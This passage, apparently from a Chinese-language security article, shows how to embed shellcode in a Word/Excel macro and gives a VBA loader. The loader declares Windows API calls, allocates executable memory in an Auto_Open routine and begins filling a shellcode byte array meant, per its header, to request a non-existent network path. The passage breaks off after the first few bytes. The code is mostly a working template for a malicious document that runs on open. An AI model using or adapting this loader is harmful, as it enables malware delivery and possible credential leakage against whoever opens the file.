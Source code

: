 [https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0187045f48bd917533.png)

<br>

**将Shellcode嵌入到宏里**

在这里，我们将上面的Shellcode嵌入到Word/Excel宏里面。你可以使用同样的代码嵌入到一个VB6应用程序中：



```
' Author : Osanda Malith Jayathissa (@OsandaMalith)
' Title: Shellcode to request a non-existing network path
' Website: https://osandamalith
' Shellcode : https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html
' This is a word/excel macro. This can be used in vb6 applications as well
#If Vba7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _ 
        ByVal lpStartAddress As LongPtr, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _ 
        lpThreadId As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As LongPtr 
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination  As LongPtr, _
        ByRef Source As Any, _
        ByVal Length As Long) As LongPtr
#Else
    Private Declare Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _
        ByVal lpStartAddress As Long, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _
        lpThreadId As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination As Long, _
        ByRef Source As Any, _
        ByVal Length As Long) As Long
#EndIf
Const MEM_COMMIT = &amp;H1000
Const PAGE_EXECUTE_READWRITE = &amp;H40
Sub Auto_Open()
    Dim source As Long, i As Long
#If Vba7 Then
    Dim  lpMemory As LongPtr, lResult As LongPtr
#Else
    Dim  lpMemory As Long, lResult As Long
#EndIf
    Dim bShellcode(376) As Byte
        bShellcode(0) = 232
        bShellcode(1) = 255
        bShellcode(2) = 255
```